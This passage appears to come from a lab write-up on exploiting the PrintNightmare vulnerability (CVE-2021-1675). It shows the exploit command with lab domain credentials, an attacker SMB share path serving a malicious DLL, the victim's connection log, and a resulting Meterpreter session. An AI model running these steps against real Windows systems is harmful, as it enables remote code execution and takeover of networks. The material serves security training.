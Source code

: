 * \\\ATTACKER\_IP\_ADDRESS\share\malicious.dll -> the location to the SMB path storing the malicious DLL.&#x20;

If all goes well, you should see an output similar to the below image.

**Kali**

```shell-session
cd /root/CVE-2021-1675/
python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@$VICTIM '\\$KALI\share\malicious.dll'
```

You may see Python errors after Try 3... but they are safe to ignore.

```
On the attacker box, you should see the SMB connection calling for the malicious DLL file.
```

Victim connects to the SMB share for the maliciousDLL

```shell-session
root@attackbox:~/Desktop/pn# ...
[*] Incoming connection (10.10.57.176,55037)
[*] AUTHENTICATE_MESSAGE (\,FINANCE-01)
[*] User FINANCE-01\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.210.90,55037)
[*] Remaining connections []
```

<figure><img src="../../.gitbook/assets/image (1118).png" alt=""><figcaption></figcaption></figure>

Lastly, you will have a successful Meterpreter session.&#x20;

<figure><img src="../../.gitbook/assets/image (1119).png" alt=""><figcaption></figcaption></figure>
